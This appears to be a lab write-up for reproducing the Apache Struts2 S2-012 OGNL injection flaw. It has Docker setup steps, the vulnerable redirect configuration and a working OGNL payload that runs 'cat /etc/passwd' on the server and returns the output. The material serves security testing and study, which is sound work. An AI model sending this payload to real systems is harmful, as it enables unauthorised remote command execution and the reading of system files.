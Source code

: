 # S2-012 Remote Code Execution Vulnerability

Impact version: 2.1.0 - 2.3.13

Vulnerability details: http://struts.apache.org/docs/s2-012.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Principle

If the Redirect type is used when configuring Result in Action , and ${param_name} is also used as the redirect variable, for example:

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

Here the UserAction defines a name variable. When the redirect type is triggered, Struts2 gets its value using ${name}. In this process, the OGNL expression is parsed for the value of the name parameter, so that any OGNL expression can be inserted. Causes command execution.

## Exp

You can directly evoke the echo POC in s2-001, because there is no sandbox and no special characters (why?).

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a .getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e) , #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter(). Flush(),#f.getWriter().close()}
```

Send a request and execute the command:

![](1.png)